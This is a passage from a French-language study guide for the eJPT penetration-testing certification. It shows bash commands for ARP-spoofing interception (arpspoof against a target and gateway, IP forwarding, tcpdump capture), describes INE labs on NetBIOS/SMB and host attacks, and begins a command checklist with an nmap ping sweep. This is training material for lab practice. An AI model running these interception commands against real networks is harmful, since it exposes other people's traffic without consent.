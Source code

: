 ```bash
# Activer le forwarding IP
sudo sysctl -w net.ipv4.ip_forward=1

# Empoisonnement ARP avec arpspoof
sudo arpspoof -i tun0 -t 10.10.10.15 10.10.10.1  # Cible vers passerelle
sudo arpspoof -i tun0 -t 10.10.10.1 10.10.10.15  # Passerelle vers cible

# Capture du trafic avec Wireshark ou tcpdump
sudo tcpdump -i tun0 -w capture.pcap host 10.10.10.15
```

**En clair, pour un débutant** : Cette technique vous permet de vous positionner entre deux machines pour intercepter leurs communications. C'est comme rediriger le courrier de quelqu'un vers vous avant de le transmettre au destinataire final.

### Lab INE : NetBIOS Hacking

Ce lab d'INE vous permet de pratiquer les attaques contre les services NetBIOS et SMB. Vous y apprendrez à :
- Énumérer les partages et utilisateurs via NetBIOS
- Exploiter les configurations SMB vulnérables
- Accéder aux ressources partagées sans authentification
- Exécuter des commandes à distance via SMB

### Labs INE : System/Host-Based Attacks CTF 1 & 2

Ces labs d'INE vous permettent de mettre en pratique diverses attaques contre des systèmes hôtes. Vous y apprendrez à :
- Exploiter des vulnérabilités spécifiques aux systèmes d'exploitation
- Contourner les mécanismes de sécurité basiques
- Comprendre les vecteurs d'attaque courants contre les hôtes
- Appliquer une méthodologie complète de test d'intrusion

Les compétences acquises dans ces labs sont directement applicables à l'examen eJPT, où vous rencontrerez probablement des scénarios similaires.

**En clair, pour un débutant** : Ces exercices vous apprennent à exploiter les faiblesses spécifiques des réseaux Windows et des protocoles réseau, compétences essentielles pour l'eJPT où vous devrez souvent naviguer dans des environnements Windows.

## 11. ⚡ Quick Ops – 12 commandes immanquables

Voici une liste des 12 commandes les plus importantes que vous devriez maîtriser pour l'eJPT. Ces commandes constituent votre "kit de survie" et vous permettront de résoudre la plupart des défis de l'examen.

### Check-list Start-to-Flag

1. **Scan réseau initial**
```bash
sudo nmap -sn 10.10.10.0/24
```
Cette commande effectue un scan ping pour découvrir rapidement les hôtes actifs sur le réseau.
